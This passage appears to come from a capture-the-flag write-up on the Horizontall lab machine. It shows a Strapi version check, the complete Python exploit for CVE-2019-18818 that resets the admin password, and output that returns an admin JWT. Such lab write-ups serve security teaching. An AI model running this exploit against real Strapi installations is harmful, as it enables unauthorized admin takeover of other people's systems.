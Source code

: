 

    oxdf@hacky$ curl http://api-prod.horizontall.htb/admin/strapiVersion
    {"strapiVersion":"3.0.0-beta.17.4"}



Both of the vulnerabilities above exist in this version.

### Change Admin Password

First I'll use CVE-2019-18818 to change the admin password using the
script from the post above:



    import requests    
    import sys    
    import json    
         
    args=sys.argv    
         
    if len(args) < 4:    
        print("Usage: {} <admin_email> <url> <new_password>".format(args[0]))    
        exit(-1)    
         
    email = args[1]    
    url = args[2]    
    new_password =  args[3]    
         
    s  =  requests.Session()    
         
    version = json.loads(s.get("{}/admin/strapiVersion".format(url)).text)    
         
    print("[*] Detected version(GET /admin/strapiVersion): {}".format(version["strapiVersion"]))    
         
    #Request password reset    
    print("[*] Sending password reset request...")    
    reset_request={"email":email, "url":"{}/admin/plugins/users-permissions/auth/reset-password".format(url)}    
    s.post("{}/".format(url), json=reset_request)    
         
    #Reset password to    
    print("[*] Setting new password...")    
    exploit={"code":{}, "password":new_password, "passwordConfirmation":new_password}    
    r=s.post("{}/admin/auth/reset-password".format(url), json=exploit)    
         
    print("[*] Response:")    
    print(str(r.content))   



Basically it gets the version, then submits a POST to
`/admin/plugins/user-permissions/auth/reset-password`, and then another
POST to `/admin/auth/reset-password`. I'll give it a try. I thought I
might need to guess the admin email address, but it turns out that
doesn't matter (I'll look at the script and the responses in [Beyond
Root](#cve-2019-18818)).



    oxdf@hacky$ python3 cve-2019-18818.py randomjunk http://api-prod.horizontall.htb 0xdf0xdf
    [*] Detected version(GET /admin/strapiVersion): 3.0.0-beta.17.4
    [*] Sending password reset request...
    [*] Setting new password...
    [*] Response:
    b'{"jwt":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjI3OTI1NzY0LCJleHAiOjE2MzA1MTc3NjR9.KKiaGhh3vsqtsgoqxliwiQt-8SLpQem6L5LDs0ks34o","user":{"id":3,"username":"admin","email":"admin@horizontall.htb","blocked":null}}'
